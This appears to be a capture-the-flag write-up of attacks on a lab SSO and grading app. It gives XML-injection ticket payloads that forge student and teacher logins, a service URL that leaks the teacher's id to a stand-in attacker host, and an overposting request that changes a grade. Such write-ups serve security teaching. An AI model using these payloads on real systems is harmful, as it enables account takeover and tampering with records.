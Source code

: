 # Writeup
## SSO Docs
Reading the html of the login page, shows a comment about TODOs which includes updating the swagger docs. Swagger is a common tool for sharing API documentation and can be accessed on /swagger of the sso.
This includes the /register which gives a new account.

## Auth-Bypass
Given the randomly generated student-account given upon request, check the SSO flow
Find the /validate path in swagger docs
Discover the service and ticket params, given the error
Discover the TGT- is needed
Discover the XML injection
Craft bypass ticket
fx http://grade.vcap.me/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>8a998821-31c7-11ed-b7f1-0242c0a8c002</id><username>student57895</username></authenticationSuccess><authenticationFailure>

## Find teacher-userid
Create a login-url for a exfil service
fx http://sso.vcap.me/login?service=http://hackerdomain.tld/example.jpg
Upload as profile-picture instead of base64 url
Trigger teacher-bot to read your message
Use teacher-userid to authenticate as teacher

http://grade.vcap.me/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>2f22e014-3aa1-11ed-9918-0242ac1c0002</id><username>teacher51289</username></authenticationSuccess><authenticationFailure>

## Change grade
Send update with grade change instead of note change. Due to overposting this allows for changing the grade. There is a filter which can be bypassed by uppercasing "Grade":

{"name":"Fundamentals of Cyber Security","values":{"Grade":"A"}}
